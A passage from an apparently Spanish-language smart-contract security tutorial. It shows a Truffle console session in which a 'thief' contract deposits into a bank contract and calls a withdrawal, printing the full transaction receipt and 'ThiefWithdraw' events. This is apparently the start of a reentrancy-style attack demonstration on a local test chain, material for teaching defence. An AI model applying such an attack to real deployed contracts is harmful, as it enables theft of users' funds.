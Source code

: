 Hasta ahora, todo parece normal. Depositamos 100.000 wei desde `accounts[0]` y 50.000 wei desde `thief`. El balance del banco es correcto:
  
  ```javascript
truffle(develop)> web3.eth.getBalance(bank.address)
'150000'
```

Intentemos un retiro:
  
  ```javascript
truffle(develop)> thief.withdraw(bank.address, 10000)
{
  tx: '0x7c8c53de9e15de3d4cadd1ced20452a6afdbf3536f3fc82eed2aba4a9776d75a',
  receipt: {
    transactionHash: '0x7c8c53de9e15de3d4cadd1ced20452a6afdbf3536f3fc82eed2aba4a9776d75a',
    transactionIndex: 0,
    blockNumber: 6,
    blockHash: '0xadd7e5c66994ec67a5a5e8a768514739369e553e5630e80b3db06b822070ba46',
    from: '0x709642f3ecbca11258abde0de9b0d7a716c56ca5',
    to: '0x04590dd27b025d164040c910ef38bc70be59799f',
    cumulativeGasUsed: 45698,
    gasUsed: 45698,
    contractAddress: null,
    logs: [ [Object], [Object] ],
    logsBloom: '0x00000000000000000000000000800000000000000000000000100000000000000000000000000000400000040000000000000
    0000000000000000000000000000100000000000000000000000000000000002000000000080000000000000000000000000000000000000000
    0000000000000000000000000000000000008400100000008000000000000000000000000000000000000000000010000000000000000000000
    0000000000000000000000020000000000000000000000000000000000000000000000000000002000000000000000000000000000000000000
    000000000000000000000010000000000000000000000000000000000000000000',
    status: true,
    effectiveGasPrice: 2990996412,
    type: '0x2',
    rawLogs: [ [Object], [Object], [Object] ]
  },
  logs: [
    {
      address: '0x04590DD27b025D164040C910eF38bc70be59799f',
      blockHash: '0xadd7e5c66994ec67a5a5e8a768514739369e553e5630e80b3db06b822070ba46',
      blockNumber: 6,
      logIndex: 0,
      removed: false,
      transactionHash: '0x7c8c53de9e15de3d4cadd1ced20452a6afdbf3536f3fc82eed2aba4a9776d75a',
      transactionIndex: 0,
      id: 'log_25192af3',
      event: 'ThiefTransferReceived',
      args: [Result]
    },
    {
      address: '0x04590DD27b025D164040C910eF38bc70be59799f',
      blockHash: '0xadd7e5c66994ec67a5a5e8a768514739369e553e5630e80b3db06b822070ba46',
      blockNumber: 6,
      logIndex: 2,
      removed: false,
      transactionHash: '0x7c8c53de9e15de3d4cadd1ced20452a6afdbf3536f3fc82eed2aba4a9776d75a',
      transactionIndex: 0,
      id: 'log_c2d2f406',
      event: 'ThiefWithdraw',
      args: [Result]
    }
  ]
  ```